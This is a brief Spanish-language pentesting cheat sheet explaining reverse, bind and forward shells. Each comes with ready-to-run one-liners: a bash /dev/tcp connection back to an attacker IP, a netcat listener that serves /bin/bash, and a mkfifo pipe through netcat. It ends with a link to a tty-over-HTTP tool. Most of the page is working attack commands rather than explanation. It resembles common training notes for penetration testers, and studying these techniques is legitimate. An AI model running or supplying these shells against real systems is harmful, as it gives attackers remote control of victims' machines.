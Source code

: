# Reverse Shell (Conexión Inversa)

- Esta técnica permite a un atacante conectarse a una máquina remota desde su propia máquina. Establece una conexión desde la máquina comprometida hacia la máquina del atacante. Esto se logra ejecutando un programa malicioso o una instrucción específica en la máquina remota que establece una conexión de regreso hacia la máquina del atacante, permitiéndole tomar control de la máquina remota.

```ruby
# En la máquina del atacante (IP: 192.168.1.100)
nc -lvnp 4444

# En la máquina de la víctima
bash -i >& /dev/tcp/192.168.1.100/4444 0>&1

```

# Blind Shell (Conexión Directa)

- Esta técnica es lo opuesto a una Reverse Shell. En lugar de que la máquina comprometida se conecte a la máquina del atacante, el atacante se conecta a la máquina comprometida. El atacante escucha en un puerto específico, y la máquina comprometida acepta la conexión entrante en ese puerto. El atacante entonces tiene acceso a la consola de la máquina comprometida, permitiéndole tomar control de ella.

```ruby
# En la máquina de la víctima
nc -lvnp 4444 -e /bin/bash

# En la máquina del atacante
nc 192.168.1.200 4444
```

# Forward Shell (Conexión Redirigida)

- Esta técnica se utiliza cuando no se pueden establecer conexiones inversas o directas debido a las reglas del Firewall implementadas en la red. Se logra utilizando mkfifo, que crea un archivo FIFO (tubería con nombre) que se usa como una especie de "consola simulada" a través de la cual el atacante puede operar en la máquina remota. En lugar de establecer una conexión directa, el atacante redirige el tráfico a través del archivo FIFO, permitiendo una comunicación bidireccional con la máquina remota.

```ruby
# En la máquina de la víctima
mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc -l 4444 > /tmp/f

# En la máquina del atacante
nc 192.168.1.200 4444

``` 

## Enlace

```ruby
https://github.com/s4vitar/ttyoverhttp
```
